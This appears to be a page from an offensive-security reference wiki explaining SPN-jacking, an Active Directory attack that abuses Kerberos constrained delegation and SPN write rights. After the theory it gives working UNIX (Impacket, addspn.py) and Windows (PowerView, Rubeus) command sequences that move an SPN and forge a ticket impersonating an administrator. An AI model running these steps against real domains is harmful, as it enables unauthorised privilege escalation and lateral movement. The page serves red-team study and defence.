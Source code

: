 # SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md) and [DACL abuse](../dacl/). A service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](broken-reference), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad\_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite` over the object or`WriteProperty` over the attribute (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

{% hint style="info" %}
In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).

In this scenario (following [Elad](https://twitter.com/elad\_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):

* serverA is configured for KCD
* serverB's SPN is listed in serverA's KCD configuration
* serverC is the final target
* attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like machines, [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py) and [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

_At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._

:warning: _At the time of writing, 12th Feb. 2022, this technique has not been fully fool-proofed from UNIX systems. In case something errors, switch to the Windows technique._

```python
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "DOMAIN"/"USER":"PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u 'domain\user' -p 'password' -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:password'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](broken-reference) to access the target.
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and  [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](broken-reference) to access the target.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse" %}
